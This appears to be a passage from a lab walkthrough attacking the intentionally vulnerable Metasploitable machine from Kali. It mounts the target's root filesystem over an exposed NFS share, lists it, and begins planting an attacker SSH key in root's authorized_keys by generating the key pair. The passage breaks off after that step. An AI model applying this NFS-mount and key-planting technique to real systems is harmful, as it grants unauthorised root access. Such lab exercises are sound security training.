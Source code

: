 ```
root@kali:~# mount -t nfs target:/ /mnt
root@kali:~# ls -l /mnt
total 96
drwxr-xr-x  2 root root  4096 May 13  2012 bin
drwxr-xr-x  3 root root  4096 Apr 28  2010 boot
lrwxrwxrwx  1 root root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  2 root root  4096 Apr 28  2010 dev
drwxr-xr-x 94 root root  4096 Mar 21 14:57 etc
drwxr-xr-x  6 root root  4096 Apr 16  2010 home
drwxr-xr-x  2 root root  4096 Mar 16  2010 initrd
lrwxrwxrwx  1 root root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x 13 root root  4096 May 13  2012 lib
drwx------  2 root root 16384 Mar 16  2010 lost+found
drwxr-xr-x  4 root root  4096 Mar 16  2010 media
drwxr-xr-x  3 root root  4096 Apr 28  2010 mnt
-rw-------  1 root root  5821 Mar 21 14:15 nohup.out
drwxr-xr-x  2 root root  4096 Mar 16  2010 opt
dr-xr-xr-x  2 root root  4096 Apr 28  2010 proc
drwxr-xr-x 13 root root  4096 Mar 21 14:15 root
drwxr-xr-x  2 root root  4096 May 13  2012 sbin
drwxr-xr-x  2 root root  4096 Mar 16  2010 srv
drwxr-xr-x  2 root root  4096 Apr 28  2010 sys
drwxrwxrwt  4 root root  4096 Mar 21 14:46 tmp
drwxr-xr-x 12 root root  4096 Apr 28  2010 usr
drwxr-xr-x 14 root root  4096 Mar 17  2010 var
lrwxrwxrwx  1 root root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server
```

One way, suggested by the Metasploitable guide, which I had read a bit up to this point, suggested to add an SSH key to the `/root/.ssh/authorized_keys` file on the target, thus allowing direct SSH access into the system.

Step 1: Create a new SSH key on my attacking host

```
root@kali:~# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:oEBiBWG7u5H+iq5iHqF+LZxA0YgU8p7j5L//2DoiP3w root@kali
The key's randomart image is:
+---[RSA 2048]----+
|=BO.             |
|=*..             |
| .+   .          |
| o.o . .         |
|.o= .   S        |
|.=+.             |
|.==.o            |
|=.=*+.Eo         |
|OB++=*++o        |
+----[SHA256]-----+
```
